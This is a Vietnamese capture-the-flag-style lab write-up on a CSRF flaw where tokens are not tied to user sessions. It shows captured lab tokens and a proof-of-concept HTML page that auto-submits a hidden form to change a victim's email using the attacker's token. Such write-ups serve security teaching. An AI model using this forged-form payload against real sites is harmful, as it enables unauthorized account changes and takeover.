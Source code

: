 # CSRF where token is not tied to user session

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Ở đây chúng ta có 2 tài khoản có vai trò như nhau để sử dụng cho việc tấn công. 

Giả sử `wiener:peter` là nạn nhân còn `carlos:montoya` là người tấn công, ta sẽ làm thay đổi email của tài khoản `wiener`

Đầu tiên ta sẽ đăng nhập vào tài khoản của `wiener` để bắt request.

![image](https://user-images.githubusercontent.com/72268643/157742534-a4464213-4a4a-4f71-ae00-6004462b0162.png)

Ta có giá trị token của `wiener`: `csrf=hXBVHlrIzCODslGXhWvQ5KtuDCRo3ufO` `session=bYFS0HMMNhTuGYPq9cOV0bC6TFahfO05`

Làm tương tự (mở tab ẩn danh) ta có giá trị token của `carlos`: `csrf=hkPpWOi1GuUUFDboLPtAZj8EIugYx8RM`

Ở lab này, họ có nói là đôi khi trang web đó tạo ra rất nhiều các giá trị CSRF token nhưng lại không được gắn với session của người dùng đó. Tức là chỉ cần là 1 token trong những token hợp lệ thì chúng ta có thể thực hiện được hành vi mà chúng ta mong muốn.

Chẳng hạn như ta có thể dùng request ta bắt được của `wiener` nhưng sửa token thành token của `carlos` và thực hiện gửi request đó thì ta vẫn sẽ trả về là email đã được đổi ở trên tài khoản `wiener`

![image](https://user-images.githubusercontent.com/72268643/157743409-16f4bee8-d41e-497d-9abe-6383964374e6.png)

![image](https://user-images.githubusercontent.com/72268643/157743698-ebbd3a06-166d-490c-903c-7037a13b5011.png)

Vậy để thực hiện tấn công, ta sử dụng request thay đổi email của `wiener` và thay token thành token của `carlos` rồi thực hiện viết PoC từ request đó. 
```
<html>
  <body>
    <h1>Hello World</h1> <!-- Phần được hiển thị-->
    <iframe style="display:none;" name="csrf-iframe"></iframe> <!-- Để ẩn thẻ form khi hiển thị tới nạn nhân -->
    <form action="nơi_khai_thác_CSRF_ở_trên_trang_web_đó" method="POST" id="csrf-form">
      <input type="hidden" name="email" value="email_mà_bạn_muốn_đổi">
      <input type="hidden" name="csrf" value="token_của_người_tấn_công" />
    </form>

    <script>document.getElementById("csrf-form").submit()</script> <!-- Phần tự submit form thực thi -->
  </body>
</html>
```

LƯU Ý: Sau mỗi lần gửi thì token của `carlos` sẽ được làm mới. Vậy nên khi thực hiện viết PoC, ta cần lấy token mới sau khi reload

Cuối cùng thì gửi lên Server và gửi đến cho nạn nhân để hoàn thành lab.
